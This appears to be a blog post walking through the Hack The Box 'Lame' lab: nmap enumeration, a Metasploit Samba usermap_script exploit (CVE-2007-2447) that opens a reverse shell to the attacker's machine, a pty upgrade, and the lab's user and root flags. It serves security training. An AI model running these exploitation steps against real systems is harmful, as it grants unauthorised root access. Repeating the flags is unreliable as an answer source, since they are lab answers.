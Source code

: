 ```yaml
---
layout: post
title: Lame - Hackthebox
date: 2019-10-03
Author: IamFromIndia
tags: [sample, document]
toc: 
pinned: true
---
```


### Lame is a beginner box. With basic enumeration and some research you will get user and the root pretty easily.

![Box](https://i.ibb.co/z7wqbNQ/Captura-de-tela-em-2019-10-03-17-30-29.png)


# ENUMERATION

### I'll start with a basic enumeration, to do that I used nmap with flags -T4 -A -v

```
┌─[iamfromindia@parrot]─[~/Documentos/htb/boxes/lame]
└──╼ #nmap -T4 -A -v 10.10.10.3

```

### We find port 21, 22, 139 and 445 open

```
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.14.10
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Arris TG562G/CT cable modem (92%), Dell Integrated Remote Access Controller (iDRAC5) (92%), Dell Integrated Remote Access Controller (iDRAC6) (92%), Linksys WET54GS5 WAP, Tranzeo TR-CPQ-19f WAP, or Xerox WorkCentre Pro 265 printer (92%), Linux 2.4.21 - 2.4.31 (likely embedded) (92%), Citrix XenServer 5.5 (Linux 2.6.18) (92%), Linux 2.6.18 (ClarkConnect 4.3 Enterprise Edition) (92%), Linux 2.6.8 - 2.6.30 (92%), Dell iDRAC 6 remote access controller (Linux 2.6) (92%), Linksys WRV54G WAP (92%)
No exact OS matches for host (test conditions non-ideal).
Uptime guess: 0.076 days (since Thu Oct  3 15:52:27 2019)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=192 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 4h00m23s, deviation: 0s, median: 4h00m23s
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   NetBIOS computer name: 
|   Workgroup: WORKGROUP\x00
|_  System time: 2019-10-03T16:41:57-04:00
|_smb2-time: Protocol negotiation failed (SMB2)


```

### I've tried exploit port 21, vsftpd 2.3.4 is indeed vulnerable but I wasn't successful. So I realized that Samba 3.0.20 was vulnerable too. I did search about samba in metasploit finding many results

```
msf5 > search samba 3.0.20

Matching Modules
================

   #   Name                                                   Disclosure Date  Rank       Check  Description
   -   ----                                                   ---------------  ----       -----  -----------
   1   auxiliary/admin/http/wp_easycart_privilege_escalation  2015-02-25       normal     Yes    WordPress WP EasyCart Plugin Privilege Escalation
   11  exploit/linux/samba/lsa_transnames_heap                2007-05-14       good       Yes    Samba lsa_io_trans_names Heap Overflow
   12  exploit/linux/samba/setinfopolicy_heap                 2012-04-10       normal     Yes    Samba SetInformationPolicy AuditEventsInfo Heap Overflow
   13  exploit/linux/samba/trans2open                         2003-04-07       great      No     Samba trans2open Overflow (Linux x86)
   14  exploit/multi/samba/nttrans                            2003-04-07       average    No     Samba 2.2.2 - 2.2.6 nttrans Buffer Overflow
   15  exploit/multi/samba/usermap_script                     2007-05-14       excellent  No     Samba "username map script" Command Execution
   16  exploit/osx/samba/lsa_transnames_heap                  2007-05-14       average    No     Samba lsa_io_trans_names Heap Overflow

   
```
# EXPLOITATION

### Then I've used the exploit/multi/samba/usermap_script module because this version of samba is vulnerable. (CVE-2007–2447)

```
msf5 exploit(multi/samba/usermap_script) > set RHOSTS 10.10.10.3
RHOSTS => 10.10.10.3
msf5 exploit(multi/samba/usermap_script) > exploit

[*] Started reverse TCP double handler on 10.10.14.10:4444 
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo r43tyRSiXyHwgK4g;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "r43tyRSiXyHwgK4g\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 1 opened (10.10.14.10:4444 -> 10.10.10.3:48359) at 2019-10-03 18:45:37 -0300

python -c 'import pty;pty.spawn("/bin/bash")' 
root@lame:/# whoami
whoami
root
root@lame:/# cat /home/makis/user.txt
cat /home/makis/user.txt
69454a937d94f5f0225ea00acd2e84c5
root@lame:/# cat ~/root.txt
cat ~/root.txt
92caac3be140ef409e45721348a4e9df
root@lame:/# 

```
### I used python -c ‘import pty;pty.spawn(“/bin/bash”)’ to spawn a tty shell and done
### box owned!! this box is very easy, but for a beginner it's definitely a great box.

### Stay in peace, guys!



